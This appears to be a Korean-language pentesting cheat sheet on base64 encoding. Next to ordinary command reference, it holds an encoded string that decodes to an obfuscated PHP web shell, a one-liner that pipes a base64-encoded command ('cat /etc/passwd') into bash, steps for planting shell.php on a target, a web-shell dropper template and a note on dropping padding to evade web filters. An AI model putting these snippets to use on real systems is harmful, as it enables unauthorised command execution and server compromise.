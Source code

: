# base64 - 인코딩/디코딩

---

## 📌 패딩(`=`)이란? → **진짜 중요**

- `Base64`는 3바이트(24비트)를 6비트씩 4개로 쪼개 문자로 인코딩함.
- 원본 데이터가 3바이트 단위가 아니면 6비트를 채우기 위해 `=` 또는 `==`을 **패딩 문자**로 붙임.

| 원본 바이트 수 | 인코딩 후 길이 | 패딩 |
| -------------- | -------------- | ---- |
| 3의 배수       | 정확히 4n      | 없음 |
| 2바이트        | 3 + `=`        | 1개  |
| 1바이트        | 2 + `==`       | 2개  |

🔒 패딩은 **데이터 정렬을 위한 것**이지, **암호화나 보안 요소는 아님**
🛠️ 실전에서는 일부 도구나 웹 필터 우회를 위해 **패딩이 생략**되기도 함
✅ `base64 -d`는 패딩이 없어도 자동으로 보정하여 **디코딩 잘됨**

```bash
# 패딩 있는 경우
echo -n "A" | base64         # → QQ==
# 패딩 없는 버전
echo -n "QQ==" | tr -d '=' | base64 -d
```

---

## 주요 옵션

- `-d`, `--decode` : 디코딩 모드
- `-i`, `--ignore-garbage` : 디코딩 시 base64 문자가 아닌 것 무시
- `-w`, `--wrap=COLS` : COLS 바이트마다 줄바꿈 (기본 76, 0은 줄바꿈 없음)
- `-n` : `echo` 명령어에서 사용, 마지막 개행 문자 제거 (base64 인코딩/디코딩 시 오류 방지)

---

## 기본 명령어

### 텍스트 변환

```bash
# text → base64
echo -n "admin:password" | base64     # YWRtaW46cGFzc3dvcmQ=
# echo -n : 마지막 개행 문자 제거 (base64 인코딩/디코딩 시 오류 방지)

# base64 → text, tr -> tr.md 문서 확인
echo -n "YOUR_STRING_HERE" | tr -d '\n\r ' | base64 -d
echo -n "YWRtaW46cGFzc3dvcmQ=" | base64 -d  # admin:password
echo -n "CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA=" | tr -d '=' | base64 -d
```

---

### 파일 처리

```bash
# 파일 → base64 (줄바꿈 포함)
base64 shell.php > shell.b64

# 파일 → base64 (한 줄로)
base64 -w 0 shell.php > shell.b64

# base64 → 파일
base64 -d shell.b64 > shell.php
cat shell.b64 | base64 -d > shell.php
```

---

## 깨지는 경우 파이썬으로

### Python

```bash
# 인코딩
python3 -c "import base64; print(base64.b64encode(b'비밀번호').decode())"

# 디코딩
python3 -c "import base64; print(base64.b64decode('67Cx66Gd67KI7Zi4').decode())"

# 파일 인코딩
python3 -c "import base64, sys; print(base64.b64encode(open(sys.argv[1], 'rb').read()).decode())" shell.php
```

---

### 원라이너

```bash
# 명령어 인코딩 후 실행
echo -n "cat /etc/passwd" | base64     # Y2F0IC9ldGMvcGFzc3dk
echo Y2F0IC9ldGMvcGFzc3dk | base64 -d | bash     # 원격지에서 실행
```

---

## 침투 활용

### 파일 전송

```bash
# 공격자 → 대상 서버
base64 -w 0 shell.php > shell.txt     # 로컬에서 인코딩
# shell.txt 내용을 복사하여 타겟 서버에 붙여넣기
base64 -d > shell.php << 'EOF'        # 타겟에서 실행
[붙여넣은 내용]
EOF
```

---

### 웹쉘 우회

```bash
# 기본 디코딩 웹쉘 템플릿
<?php
$data = '디코딩할문자열';
file_put_contents('shell.php', base64_decode($data));
?>

# 파일로 저장
echo "<?php
\$data = '디코딩할문자열';
file_put_contents('shell.php', base64_decode(\$data));
?>" > decode.php

# 실행
php decode.php
```

---

### Basic 인증

```bash
# Basic 인증 헤더 생성
echo -n "admin:password" | base64     # YWRtaW46cGFzc3dvcmQ=
curl -H "Authorization: Basic YWRtaW46cGFzc3dvcmQ=" https://target.com/
```

---
